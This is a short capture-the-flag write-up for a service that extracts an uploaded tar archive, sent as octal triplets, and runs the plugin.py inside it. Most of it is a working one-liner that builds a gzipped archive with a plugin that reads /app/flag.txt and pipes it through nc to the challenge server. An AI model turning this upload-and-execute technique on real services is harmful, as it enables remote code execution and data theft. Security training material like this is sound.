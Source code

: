 
 ![alt text](image.png)

For this challange I noticed that this service requires a tar archive transmitted as a string of octal triplets (3 octal digits per byte), extracts uploads/plugin.py, and calls its run() function. We will use a small plugin that reads /app/flag.txt


This command creates the tar archive in memory, converts it to octal, and immediately sends it to the server:

python3 - <<'PY' | awk 'NF{line=$0} END{print line}' | nc ctf.ac.upt.ro 9300
import io, tarfile
plugin_code = "def run():\n    print(open('/app/flag.txt','rb').read().decode(errors='ignore'))\n"
buf = io.BytesIO()
with tarfile.open(fileobj=buf, mode="w:gz") as tf:
    info = tarfile.TarInfo(name="plugin.py")
    data = plugin_code.encode()
    info.size = len(data)
    tf.addfile(info, io.BytesIO(data))
tar_bytes = buf.getvalue()
octal = "".join(f"{b:03o}" for b in tar_bytes)
print(octal)
PY

warning!! i got a lot of timeouts at the beginning bcz: You must send the entire payload at once (use a pipe with nc or a quick copy-paste) because the server has a 6-second timeout (alarm(6)). This is why gzip compression (w:gz) makes the payload smaller, which helps with the transmission speed